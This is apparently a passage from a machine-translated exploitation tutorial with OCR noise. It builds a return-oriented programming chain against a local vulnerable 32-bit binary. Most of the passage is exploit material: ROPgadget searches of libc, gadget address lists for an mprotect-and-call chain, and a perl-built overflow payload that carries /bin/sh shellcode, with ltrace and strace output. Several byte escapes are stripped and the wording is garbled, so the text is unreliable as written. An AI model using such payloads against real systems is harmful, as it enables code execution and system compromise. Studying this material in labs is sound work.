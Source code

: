 —Hey yeah, get me a whiskey, little ice with a slice of lemon, and a direction of `pop eax;ret`…

—Then I bring her whiskey.

`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --offset 0xf7dc4000 --badbytes 00 | grep "pop eax"  
[...]  
0xf7de9be7 : pop eax ; ret`

—’You call your aunt once EAX to congratulate the birthday?  
—Ok … hand me the phone.  
`$ python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --offset 0xf7dc4000 --badbytes 00 | grep "call eax"  
[...]  
0xf7dde182 : call eax`

Yet we can make a skeleton payload for locations that we lack.

Parte 1 (argumento):
0xf7fdbbd0 xor eax, eax ; ret
0xf7fd6cb5 inc eax ; add al, 1 ; ret
0xf7fd6cb6 add al, 1                  
0xf7e01e03 pop ecx ; ret             
0xffff???? --

Parte 2 (stdin) \[placed in 0xffff????\]:  
0xf7eb9240 &mprotect  
0xf7e05fdb &pop;pop;pop;ret  
0xffffd000  
0x00010000  
0x00000007  
0xf7de9be7 &pop eax;ret  
0xffff¿¿¿¿ #  
0xf7dde182 call eax

Now let’s calculate what direction read.  
```$ ltrace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
__libc_start_main(0x80484f5, 2, 0xffffd354, 0x8048540 <unfinished ...>  
strcpy(0xffffd200, "130026032513333152001300Ph//shh/bin211343PS211341260v1322315"...) = 0xffffd200  
puts("130026032513333152001300Ph//shh/bin211343PS211341260v1322315"...1���1�̀1�Ph//shh/bin��PS���  
1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAл���l���l�� ������0l��  
) = 165  
```

We see that strcpy writes in 0xffffd200, so that’s the buf dir. Given that from buf to EIP(s) are 140 bytes, and then write 6 directions (32 bits each, 4 bytes), make

140 + 24 = \[espera que... gnome-calculator\]164

0xffffd200+0xa4 = 0xffffd2a4

By the way, the fact that ltrace is not finished because it has been waiting for the read(). We can see that everything worked perfectly with strace:  
```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
execve("/home/arget/vuln", ["/home/arget/vuln", "130026032513333152001300Ph//shh/bin211343PS211341260v1322315"...], 0x7fffffffe228 /* 39 vars */) = 0  
strace: [ Process PID=17487 runs in 32 bit mode. ]  
[...]  
read(0,```  
Perfect. Now we adjust directions

Parte 1 (argumento):
0xf7fdbbd0 xor eax, eax ; ret
0xf7fd6cb5 inc eax ; add al, 1 ; ret
0xf7fd6cb6 add al, 1
0xf7e01e03 pop ecx ; ret
0xffffd2a4                  
```